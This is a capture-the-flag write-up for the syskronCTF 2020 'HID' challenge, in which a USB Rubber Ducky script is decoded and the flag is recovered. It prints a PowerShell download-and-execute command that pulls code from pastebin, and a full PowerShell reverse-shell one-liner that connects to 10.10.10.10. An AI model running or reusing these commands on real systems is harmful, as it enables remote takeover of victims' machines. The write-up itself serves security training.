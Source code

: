 # HID (300 points)

## Description

One of my colleagues found a USB stick in the parking lot in front of our company. Fortunately he handed it over directly to us . The drive contains an SD card with just one file. Maybe it's no normal USB flash drive?

[Attached bin](https://github.com/holypower777/ctf_writeups/blob/main/syskronCTF_2020/HID/inject.bin)

## Solution

Inject.bin found in usb... What could it be? Sure! Ducky scripts!

Let's google ducky scripts decoder. [**Here we are**](https://ducktoolkit.com/).

Having decoded the script, I started reading the code. I still don't understand what the code does, but I found an interesting line:
```
powershell "IEX *New/Object Net.WebClient(.DownloadString*~https>&&pastebin.com&raw&YRD8jsvd~(<"ENTER
```

Let's open that link to pastebin and get the 404 error :)
![](readme_files/XVVlj7ZIvCU.jpg)
I decided to search in google cache and Waybackk machine, but this page was not saved anywhere.

I tried to run the script in a virtual machine, but the script didn't do anything. Since I did not understand anything in the Daki scripts, I could not change them. I had no ideas and decided to open a hint.
```
There are different languages for your keyboard layout.
```
Switzerland was the answer. The link to pastebin has become valid, we open it and see the response with the flag
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10syskronCTF{y0u_f0und_m3}",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Flag: syskronCTF{y0u_f0und_m3}
